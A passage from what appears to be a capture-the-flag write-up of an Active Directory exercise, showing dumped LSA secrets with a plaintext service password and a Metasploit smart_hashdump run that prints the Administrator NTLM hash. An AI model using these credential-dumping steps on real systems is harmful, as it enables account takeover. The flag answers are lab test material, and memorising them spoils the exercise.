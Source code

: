 ```
cur/hex : 01 00 00 00 d9 d2 0c 8c f2 c0 fe 37 7e 8a 5b f6 a9 38 49 99 8b a6 93 20 b2 9e c0 9d c6 41 5a a6 cc df 31 fd 9b ce 53 ba 1e 8c 31 71 
    full: d9d20c8cf2c0fe377e8a5bf6a93849998ba69320b29ec09dc6415aa6ccdf31fd9bce53ba1e8c3171
    m/u : d9d20c8cf2c0fe377e8a5bf6a93849998ba69320 / b29ec09dc6415aa6ccdf31fd9bce53ba1e8c3171
old/hex : 01 00 00 00 55 0b 07 be cc e6 4f 90 bb 45 62 4a 4a dc 7f 91 50 a8 90 cc dd dc d2 a3 ce 33 5a 29 49 3d 60 6f 25 a5 03 2e 42 39 b1 96 
    full: 550b07becce64f90bb45624a4adc7f9150a890ccdddcd2a3ce335a29493d606f25a5032e4239b196
    m/u : 550b07becce64f90bb45624a4adc7f9150a890cc / dddcd2a3ce335a29493d606f25a5032e4239b196

Secret  : NL$KM
cur/hex : 29 5b d7 f4 51 cb 5a 3f e2 9e bb cd 4f 8a 7c 36 d3 31 1e 24 9c 7e a4 da c6 b0 57 78 3e 4b e6 f3 b2 2d fd d8 83 b6 9e 9e f8 fc 13 d3 77 37 e4 7f 8b 6a 7c ad 41 2c 86 06 1c 0d ef 4d 0a c2 e1 59 

Secret  : _SC_SplunkForwarder / service 'SplunkForwarder' with username : mycoms\ali
cur/text: P@ssw0rd123!
```

The password for domain user is stated there.

**Answer: P@ssw0rd123!** 

### Q4 - NTLM hash result for user Administrator

![](/images/ctf-round-3-active-directory/8.png)

For this question, I use `post/windows/gather/smart_hashdump` to dump local accounts from the SAM Database.

```
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/ms16_075_reflection_juicy) > use post/windows/gather/smart_hashdump
msf6 post(windows/gather/smart_hashdump) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/smart_hashdump) > run

[*] Running module against PROD-WEBSRV7765
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/ahmad/.msf4/loot/20201122030536_default_192.168.240.80_windows.hashes_705427.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*] 	Obtaining the boot key...
[*] 	Calculating the hboot key using SYSKEY 14a513800f23074d06b371d5b4bfdb86...
[*] 	Obtaining the user list and keys...
[*] 	Decrypting user keys...
[*] 	Dumping password hints...
[*] 	No users with password hints on this system
[*] 	Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
[*] Post module execution completed
```
